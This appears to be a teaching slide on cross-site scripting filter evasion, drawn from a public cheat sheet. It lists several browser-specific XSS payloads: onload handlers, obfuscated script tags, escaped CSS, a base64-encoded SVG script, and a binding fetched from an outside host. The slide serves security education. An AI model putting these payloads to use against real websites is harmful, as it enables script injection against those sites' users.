

Source: XSS Filter Evasion Cheat Sheet
# 31 Flavors of XSS
All of these are browser-specific
<BODY ONLOAD=alert('XSS')>
¼script¾alert(¢XSS¢)¼/script¾
<XML ID="xss"><I><B>&lt;IMG SRC="javas<!-- -->cript:alert('XSS')"&gt;</B></I></XML>
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>
<SPAN DATASRC="#xss" DATAFLD="B" <DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
What do you think is this code doing?